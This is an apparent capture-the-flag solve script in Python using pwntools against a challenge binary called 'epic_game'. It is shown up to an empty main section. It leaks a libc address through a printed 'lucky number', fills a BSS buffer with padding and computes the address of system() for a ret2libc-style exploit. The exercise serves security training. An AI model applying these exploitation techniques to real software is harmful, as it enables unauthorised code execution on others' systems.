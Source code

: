 [./solve.py](./solve.py)

```py
#!/usr/bin/env python3
from pwn import *
context.log_level = 'error'
chall        = context.binary = ELF('./app.out')
LIBC_PATH    =  ''
DEFAULT_PATH = '/usr/lib/x86_64-linux-gnu/libc-2.31.so'


def start(argv=[], *a, **kw):
    global LIBC_PATH, DEFAULT_PATH
    if args.GDB:
        LIBC_PATH = DEFAULT_PATH
        return gdb.debug([chall.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        LIBC_PATH = './libc6_2.28-10_amd64.so'
        return remote('epic_game.ichsa.ctf.today', 8007)
    else:
        LIBC_PATH = DEFAULT_PATH
        return process([chall.path] + argv, *a, **kw)

# for local debugging purposes, run the script with `GDB` argument
gdbscript = '''
break *0x401392
condition 1 (int)$rsi <= 0x7
continue
'''.format(**locals())


# utils funcs
def waitforchoice(io):
    io.recvuntil(b'Choice:')
    return 0

def fill_bss_buff(io):
    waitforchoice(io)
    io.sendline(b'A'*0x3fe)
    waitforchoice(io)
    io.sendline(b'B'*0x2)
    return 0

def setup_player(io):
    io.sendline(b'1')       # mighty warrior
    waitforchoice(io)
    io.sendline(b'pwnie')   # player's name
    return fetch_libc_leak(io)

def fetch_libc_leak(io):
    io.recvuntil(b'Your lucky number is ')
    rand_leak = int(io.recvuntil(b'\n')[:-1])
    return rand_leak


def fetch_system(libc_leak):
    global LIBC_PATH
    libc = ELF(LIBC_PATH)
    libc_base = libc_leak - libc.sym['rand']
    retval = libc_base + libc.sym['system']

    return retval

# main 
```